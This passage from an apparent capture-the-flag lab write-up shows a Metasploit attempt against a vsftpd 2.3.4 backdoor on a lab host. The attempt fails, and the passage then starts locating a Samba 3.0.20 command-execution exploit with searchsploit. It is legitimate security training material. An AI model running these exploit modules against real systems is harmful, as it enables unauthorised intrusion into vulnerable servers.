 Set the payload to `cmd/unix/interact` and run:

```

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact 
payload => cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)

Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

```

It still fails.

I’ll explore why this fails in [Beyond Root](#beyond-root---vsftpd).

## SAMBA Exploit

### Completely Manually

#### Script Analysis

To understand what’s going on, I’ll grab the source for the exploit:

```

root@kali# searchsploit -m exploits/unix/remote/16320.rb
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text, with CRLF line terminators

Copied to: /root/hackthebox/forwardslash-10.10.10.183/16320.rb

```

